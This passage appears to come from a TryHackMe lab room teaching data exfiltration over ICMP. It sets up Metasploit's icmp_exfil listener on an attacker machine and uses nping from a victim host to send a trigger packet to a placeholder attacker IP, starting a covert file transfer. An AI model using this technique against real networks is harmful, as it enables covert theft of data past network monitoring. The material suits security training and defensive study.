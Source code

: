 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b45715c44b5998fa9bf6a989b1e0d8d6.png)


Now from the AttackBox, let's set up the Metasploit framework by selecting the icmp_exfil module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the BPF_FILTER option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows,

```
Set the BPF_FILTER in MSF 

           
                
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP

            
```

We also need to select which network interface to listen to, eth0. Finally, executes run to start the module.

```
Set the interface in MSF

           
                
msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0
INTERFACE => eth0
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)

            
```

We prepared icmp.thm.com as a victim machine to complete the ICMP task with the required tools. From the JumpBox, log in to the icmp.thm.com using thm:tryhackme credentials.

We have preinstalled the nping tool, an open-source tool for network packet generation, response analysis, and response time measurement. The NPING tool is part of the NMAP suite tools.

First, we will send the BOF trigger from the ICMP machine so that the Metasploit framework starts writing to the disk. 

```
Sending the Trigger Value from the Victim

           
                
thm@jump-box$ ssh thm@icmp.thm.com
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0369s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=7785 seq=1] IP [ttl=64 id=40595 iplen=39 ]
RCVD (0.0376s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=63 id=12656 iplen=39 ]
RCVD (0.0755s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=31 id=60759 iplen=32 ]
    
Max rtt: 38.577ms | Min rtt: 0.636ms | Avg rtt: 19.606ms
Raw packets sent: 1 (39B) | Rcvd: 2 (71B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds
 
```
